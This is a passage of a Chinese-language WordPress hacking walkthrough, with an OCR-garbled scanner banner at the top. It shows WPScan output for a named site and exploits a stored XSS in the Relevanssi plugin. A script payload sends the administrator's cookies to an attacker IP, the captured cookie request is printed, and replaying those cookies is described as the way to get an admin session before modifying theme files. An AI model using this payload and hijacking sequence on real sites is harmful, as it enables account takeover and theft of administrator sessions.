 __
_______

_____
\ \/ / __ \ / ____|\ \ /\ / /| |__) | (

___
___ __ _ _ __

\ \/ \/
/ | ___/ \___ \ / __|/ _` | '

_ \
\/\ / | |____) | (__| (_| | | | |\/ \/|_||_____/ \___|\__,_|_| |_| v1.1WordPress Security Scanner by ethicalhack3r.co.ukSponsored by the RandomStorm Open Source Initiative_____________________________________________________| URL: http://www.Archmake.com/| Started on Tue Jan 24 18:44:49 2012[!] The WordPress theme in use is called "twentyeleven".[!] The WordPress "http://www.Archmake.com/readme.html" file exists.[!] WordPress version 3.3.1 identified from meta generator.[+] Enumerating installed plugins...Checking for 2892 total plugins... 100% complete.[+] We found 2 plugins:Name: relevanssiLocation: http://www.Archmake.com/wp-content/plugins/relevanssi/Directory listing enabled? Yes.Name: relevanssiLocation: http://www.Archmake.com/wp-content/plugins/relevanssi/Directory listing enabled? Yes.[+] There were 1 vulnerabilities identified from the plugin names:[!] Relevanssi 2.7.2 WordPress Plugin Stored XSS Vulnerability* Reference: http://www.exploit-db.com/exploits/16233/[+] Finished at Tue Jan 24 18:45:30 2012

正如WPScan扫描结果展示的一样,这个Relevanssi插件存在一个XSS漏洞.成功利用这个漏洞可以窃取到管理员的cookies.

第一步,我们在Archmake网站的搜索栏中插入如下代码:
<script>new Image().src="http://172.16.40.204/p.php?cookie="+document.cookie; </script>

![]()

当WordPress管理员点击后台管理面板上的”User Searches”时,脚本就会执行.

![]()

远程攻击者的服务器上就可以接收到管理员的cookie.

GET/p.php?cookie=wordpress_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C1328098588%7C72c3335ad1e783b75bb3d8cf9e85fc9c;%20wp-settings-time-1=1327925790;%20wordpress_test_cookie=WP+Cookie+check;%20wordpress

_logged_i
n_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C1328098588%7Caf1bcabca49191de76ec45e798ae5ada;%20wp-settings-1=editor%3Dhtml;%20wordpress_ed8a4e5dd813c7b5d262130b08955a6a=admin%7C1327599469%7C3ada64cf8e918c9a4bf148896181fc63;%20wordpress_logged_in_ed8a4e5dd813c7b5d262130b08955a6a=admin HTTP/1.1

然后使用firefox的cookie编辑器,修改cookie.这样就可以绕过WordPress的登录功能,获得一个管理员会话.

![]()

![]()

获取到后台管理员权限之后,整站的权限就有很多种方法可以得到了.最直接的就是修改WordPress的主题文件.

# WordPress插件任意文件类型上传

